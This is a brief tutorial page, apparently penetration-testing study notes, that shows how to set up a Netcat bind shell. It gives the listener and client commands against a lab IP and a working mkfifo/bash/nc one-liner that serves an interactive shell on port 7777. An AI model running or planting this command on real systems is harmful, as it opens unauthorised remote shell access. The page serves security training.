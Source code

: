 ![](bindshell.png)

* Connect with `IP address` and `port` to the target

#### No. 1: Server - Target starting Netcat listener
```sh
$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

#### No. 2: Client - Attack box connecting to target
```sh
$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

## Establishing a Basic Bind Shell with Netcat
```sh
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <target_ip> 7777 > /tmp/f
```

```sh
$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

